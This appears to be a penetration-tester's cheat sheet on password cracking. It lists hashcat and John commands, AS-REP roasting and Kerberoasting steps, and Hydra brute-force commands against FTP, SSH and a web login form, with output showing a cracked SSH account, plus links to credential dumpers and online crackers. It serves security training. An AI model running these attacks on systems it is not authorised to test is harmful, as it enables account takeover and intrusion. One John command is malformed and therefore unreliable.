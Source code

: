 ```yaml
---
description: The art of password cracking with John, Hashcat, and Hydra.
---
```


# 🔓 Password Cracking/Bruteforcing

## Obtaining Hash

* Do you have a certain file that is encrypted and is password locked?
* The following binaries will grab the hash of the password and convert it to a crackable hash that can be used with a wordlist such as rockyou.txt.

### Zip File

```
zip2john
```

### 7z File

```
7z2john
```

### pdf File

```
pdfcrack
```

### Doc File

```
office2john
```

### .net File

```
dnspy
```

## Hashcat

### Hash Types

{% embed url="https://hashcat.net/wiki/doku.php?id=example_hashes" %}

### Syntax Examples

```
hashcat -m 1000 <hash> rockyou.txt
```

### Finding Hashcat format:

```
hashcat --help | grep NTLM
```

## John

### Syntax Examples

```
john -=/home/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt hash
```

## AS-REP Roasting

Requirements:

* You need a valid username
* Password is NOT required

1. <mark style="color:yellow;">impacket-GetNPUsers</mark>
2. Obtain hash
3. Crack offline with Hashcat

```
hashcat -m 18200 -a 0 hashes.txt rockyou.txt
```

## Kerberoasting

Requirements:

* You need a valid username and password

1. <mark style="color:yellow;">impacket-GetUserSPNs</mark>
2. Obtain hash
3. Crack offline with Hashcat

```
hashcat -m 13100 --force hashes.txt rockyou.txt
```

## Hydra

### Bruteforcing

FTP:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.78.56 ftp
```

SSH:

```
hydra -L users -P users 192.168.81.60 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-13 17:08:10
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:3/p:3), ~3 tries per task
[DATA] attacking ssh://192.168.81.60:22/
[22][ssh] host: 192.168.81.60   login: eleanor   password: eleanor
```

{% embed url="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/" %}

### <mark style="color:yellow;">Using Hydra to Brute-Force Our First Login Page</mark>

Hydra is a fairly straight forward tool to use, but we have to first understand what it needs to work correctly. We’ll need to provide the following in order to break in:

* Login or Wordlist for Usernames
* Password or Wordlist for Passwords
* IP address or Hostname
* HTTP Method (POST/GET)
* Directory/Path to the Login Page
* Request Body for Username/Password
* A Way to Identify Failed Attempts

Simple login page bruteforce:

```
sudo hydra -L emails -P rockyou.txt 10.10.10.10 https-post-form "/iredadmin/login:username=^USER^&password=^PASS^&form_login=Login&lang=en_US:Username or password is incorrect."
```

## Wordlist generators

* Cewl: [https://digi.ninja/projects/cewl.php](https://digi.ninja/projects/cewl.php)
* Crunch: [https://tools.kali.org/password-attacks/crunch](https://tools.kali.org/password-attacks/crunch)
* Cupp (In Kali Linux): [https://github.com/Mebus/cupp](https://github.com/Mebus/cupp)

### Tools to check the hash type:

Hash-Identifier: [https://github.com/psypanda/hashID](https://github.com/psypanda/hashID)

### Tools to dump for hashes:

Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

Mimipenguin: [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)

Pypykatz: [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)

## Wordlists

* In Kali: /usr/share/wordlists
* Seclists: apt-get install seclists You can find all of his password lists here: [https://github.com/danielmiessler/SecLists/tree/master/Passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords)

Xajkep Wordlists: [https://github.com/xajkep/wordlists](https://github.com/xajkep/wordlists)

## **Online Password Crackers**

Confusingly these are also online crackers but these are collections of pre-broken hashes (e.g. wordlists that have been hashed) or computing services that you can use to break hashes.&#x20;

I usually went for these first to see if they had the hash cracked in their database. However, don’t use these online crackers as your main tools for everything.&#x20;

Uploading a hash from an engagement can be a huge risk so make sure you use your offline tools to crack those types of hashes. Here is a list of online hash crackers that I found online that you can use to crack hashes:

* [https://hashkiller.io/](https://hashkiller.io/listmanager)
* [https://www.cmd5.org/](https://www.cmd5.org/)
* [https://www.onlinehashcrack.com/](https://www.onlinehashcrack.com/)
* [https://gpuhash.me/](https://gpuhash.me/)
* [https://crackstation.net/](https://crackstation.net/)
* [https://passwordrecovery.io/](https://passwordrecovery.io/)
* [https://md5decrypt.net/en/](https://md5decrypt.net/en/)
* [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)
* [http://cracker.offensive-security.com/](http://cracker.offensive-security.com/)

Other Resources for Password Cracking:

* Pwning Wordpress Passwords: [https://medium.com/bugbountywriteup/pwning-wordpress-passwords-2caf12216956](https://medium.com/bugbountywriteup/pwning-wordpress-passwords-2caf12216956)

